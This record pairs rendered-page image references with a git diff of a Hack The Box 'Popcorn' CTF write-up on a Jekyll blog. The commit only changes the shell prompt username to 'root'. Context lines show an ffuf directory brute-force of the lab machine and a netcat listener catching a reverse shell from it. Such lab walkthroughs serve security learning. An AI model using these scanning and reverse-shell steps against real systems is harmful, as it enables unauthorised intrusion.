

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-10-06-Popcorn-Writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 1828 px. Shown: the part 152-452 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-10-06-Popcorn-Writeup.md

````diff
--- a/_posts/2020-10-06-Popcorn-Writeup.md
+++ b/_posts/2020-10-06-Popcorn-Writeup.md
@@ -71,7 +71,7 @@ Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
 Okay  let's dirbust the port80.
 
 ```bash
-argenestel@parrot  ~/Desktop/hackthebox/popcorn  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.6/FUZZ
+root@parrot  ~/Desktop/hackthebox/popcorn  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.6/FUZZ
 
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
@@ -130,7 +130,7 @@ Alright done now lets manupulate screenshot.
 Hurrayy let's get shell
 
 ```bash
-argenestel@parrot  ~/Desktop/hackthebox/popcorn  nc -lvnp  4444
+root@parrot  ~/Desktop/hackthebox/popcorn  nc -lvnp  4444
 listening on [any] 4444 ...
 connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 48833
 Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
````
